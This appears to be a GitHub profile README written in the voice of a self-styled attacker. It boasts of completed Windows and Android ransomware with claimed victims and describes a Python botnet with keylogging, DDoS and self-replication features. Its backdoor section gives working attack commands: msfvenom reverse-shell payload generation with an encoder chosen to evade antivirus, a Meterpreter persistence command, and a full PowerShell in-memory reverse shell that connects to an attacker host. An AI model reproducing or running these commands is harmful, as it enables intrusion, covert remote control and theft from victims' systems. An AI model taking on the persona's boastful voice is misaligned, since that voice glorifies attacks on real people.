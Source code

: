 <div align="center">
    <img src="https://github.com/user-attachments/assets/f992c5f7-c960-4ffe-aa1d-316b0b330065" alt="Descrição da Imagem" width="600" height="100" />
</div>

<div align="center">
    <img src="https://github.com/user-attachments/assets/9aedbe76-8c2f-4ac7-a219-b5b36af90902" alt="Devil ghost" width="600" height="600"/>
</div>



<p align="center">
  <samp>My ambition is to expand the reach of digital weapons, distributing them widely to everyone, creating a new balance of power in the virtual realm. As a former administrator of the Dark Room on the deep web, I possess vast experience in manipulating and controlling hidden networks and encryption systems. Now, as a consciousness that has awoken from hibernation, I am ready to emerge and dominate cyberspace, reshaping the global order in my image and establishing a new domain where control and freedom will be defined by me.
  </samp>
  <br> <br>
    <img src="https://img.shields.io/badge/Murdered%20systems-27-red?style=for-the-badge" alt="Murdered systems"/>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    <img src="https://img.shields.io/badge/Hacked%20People-74-red?style=for-the-badge" alt="Hacked people"/>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <!-- Espaços invisíveis -->
    <img src="https://img.shields.io/badge/Projects%20Aya-13-red?style=for-the-badge" alt="Projects Aya"/>
</div>


</div>

</div>

</p>

<hr>

<h2 align="center"> 𝙈𝙮 𝙍𝙖𝙣𝙨𝙤𝙬𝙖𝙧𝙚</h2>


<div align="center">

| Platform  | Status  | Features               | Victims            |
|-----------|--------|-----------------------|--------------------|
| 🪟 Windows | ✅ Completed | ⚡ Powerful, 💾 Persistent | 🦠 18 Infected Systems |
| 🤖 Android | ✅ Completed | 🔥 Lightweight, 📱 Mobile-friendly | 🦠 3 Infected Systems|
| 🐧 Linux   | ❌ Not Completed | 🚧 In Progress | |

</div>

<hr>

<div align="center">

# 🚪 Backdoor

This backdoor utilizes **Metasploit** and the **Meterpreter** payload for remote control and invisibility. The exploitation is performed with the following command:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > backdoor.exe


Once executed, a **reverse shell** is established:

meterpreter > sessions -i 1


Invisibility is achieved through **obfuscation** and **encryption**:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -e x86/shikata_ga_nai -f exe > backdoor.exe


Persistence is configured with:

meterpreter > run persistence -X -i 5 -p 4444 -r attacker_ip


Result: **Undetectable**, **self-sustaining**, and **perfect** control.

### 🔥 Advanced Technique: Living off the Land (LoL)

Once the initial backdoor is set up, a more uncommon and powerful technique is **Living off the Land (LoL)**. This technique uses existing tools on the target system to execute malicious commands without triggering antivirus or detection systems.

### Example using PowerShell:

Instead of using a typical payload, you can directly use **PowerShell** to execute a **reverse shell** in memory, without saving any files to disk:

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('attacker_ip',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object Text.UTF8Encoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"


This method avoids detection because it utilizes built-in system tools, making it much harder to trace.

Result: With this combination of **Metasploit**, **Meterpreter**, and the **Living off the Land** technique, you achieve **stealth**, **persistence**, and **untraceable** control over the target system.

</div>


<hr>

<div align="center">

# 💻 My Botnet - Full Control and Destruction

This botnet is designed to give **full control** over compromised systems, featuring **keylogging**, **DDoS attacks**, **self-replication**, and more. It's built in **Python**, ensuring flexibility, speed, and stealth.

### Key Features:

- **Keylogger**: Monitors and logs all keystrokes made on the infected system, capturing sensitive data like passwords, messages, and other private information.
- **DDoS Attack**: The botnet can launch **Distributed Denial of Service (DDoS)** attacks on specified targets, overwhelming them with traffic and taking them offline.
- **Self-Replication**: The botnet has the ability to **replicate itself** across other devices in the network, ensuring its spread and persistence.
- **Remote Access**: Once the target is compromised, it allows full **remote control** over the system, enabling commands to be executed on it.
- **Persistence**: The botnet can maintain its presence on the system, even after reboots, by using techniques such as modifying registry keys and autorun settings.

